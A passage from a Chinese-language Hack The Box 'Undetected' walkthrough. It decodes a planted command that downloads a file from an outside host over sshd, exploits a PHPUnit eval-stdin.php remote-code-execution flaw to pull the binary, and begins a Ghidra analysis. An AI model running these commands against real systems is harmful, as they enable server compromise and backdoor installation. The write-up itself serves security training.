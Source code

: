 使用 Ghidra 查看 host_post_config

# Base64 解码

复制并解码后我们发现了一些有趣的东西:

```
┌──(root💀kali)-[~/htb/undetected]
└─# echo "d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0 ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk" | base64 -d

wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `datbase64: invalid input
```

好像是在 sbin 里把一张图片写成 sshd 守护进程了。为什么会这样？

# 可疑的 sshd 文件

让我们获取 sshd 文件，并在 Kali 上查看它:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /usr/sbin/sshd');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --output sshd
```

执行该文件向我们展示了它看起来是一个普通的 sshd 二进制文件:

```
┌──(root💀kali)-[~/htb/undetected]
└─# ./sshd --help
unknown option -- -
OpenSSH_8.2p1, OpenSSL 1.1.1m  14 Dec 2021
usage: sshd [-46DdeiqTt] [-C connection_spec] [-c host_cert_file]
            [-E log_file] [-f config_file] [-g login_grace_time]
            [-h host_key_file] [-o option] [-p port] [-u len]
```

8.2 版本于 2020 年 2 月 14 日发布，但我没有发现任何容易尝试和利用的漏洞。

# 又和吉德拉倒车了

将这个二进制文件导入到 Ghidra 后，我发现了一些有趣的东西:
